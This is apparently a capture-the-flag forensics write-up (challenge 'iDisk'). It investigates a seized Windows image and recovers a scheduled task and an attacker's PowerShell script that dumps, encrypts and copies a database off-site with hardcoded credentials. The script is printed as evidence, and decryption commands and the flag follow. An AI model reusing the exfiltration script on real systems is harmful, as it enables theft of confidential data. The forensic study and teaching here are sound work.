

# iDisk

> Il y a quelque temps, l'entreprise ECORP a constaté une intrusion au sein de son système d'information. Les équipes d'administrateurs système ont remarqué que des sauvegardes de la base de données "pre_prod" ont été effectuées à plusieurs reprises (et sans accord au préalable) aux alentours de 00h chaque jour. Après une longue enquête policière, un suspect (ex-employé d'ECORP) a été interpelé avec un ordinateur. Toutefois, la police étant en sous-effectif, nous avons besoin de votre aide afin de mener une investigation numérique sur la machine saisie. Êtes-vous prêt à accepter cette mission ?

## Solution

J'ouvre le fichier avec Autopsy.
Il s'agit d'une machine Windows.

Avec la description, j'imagine qu'il y a une tâche journalière qui s'effectue aux alentours de minuit qui sauvegarde la base de données pre_prod.

Pour le vérifier, je cherche sur internet où se trouvent les tâches : elles sont dans `C:\Windows\System32\Tasks`.

Bingo, je trouve un fichier intéressant.



Here are the file contents:

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2021-09-23T10:39:06.0408922</Date>
    <Author>DESKTOP-RD0QA0B\Skiddy</Author>
    <Description>ECORP's database dump</Description>
    <URI>\Backup</URI>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2021-09-23T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Principals>
    <Principal id="Author">
      <RunLevel>LeastPrivilege</RunLevel>
      <UserId>Skiddy</UserId>
      <LogonType>InteractiveToken</LogonType>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>false</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
      <Arguments>C:\Windows\System32\backup.ps1</Arguments>
    </Exec>
  </Actions>
</Task>
```

It calls a powershell script located in `C:\Windows\System32\backup.ps1`.
I also retrieve it.

```ps
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*
```

The script is very easy to understand: it connects to the confidential database, creates a backup on the server `C:\Users\root\Documents\db_backup.bak`, encrypts it with OpenSSL using AES-CBC with a hardcoded IV and key to `C:\Users\root\Documents\db_backup.bak.enc`, compresses it using `7za.exe` to `C:\Users\root\Documents\db_backup.zip`.

Then the zip file is extracted on the computer to `C:\Users\Skiddy\Music\Jazz`.

I go retrieve the files there, and I see several deleted (but they are still present because only logically deleted) parts of the database.

I extract them, reconstruct the ZIP by concatenating the different parts, and use `openssl` to decrypt the database.

```bash
cat db_backup.zip.0* > db_backup.zip
unzip db_backup.zip
openssl aes-256-cbc -d -in db_backup.bak.en
c -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0a
d5756
strings db_backup.bak | grep DGA
```

gives me the flag.

Flag: `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}`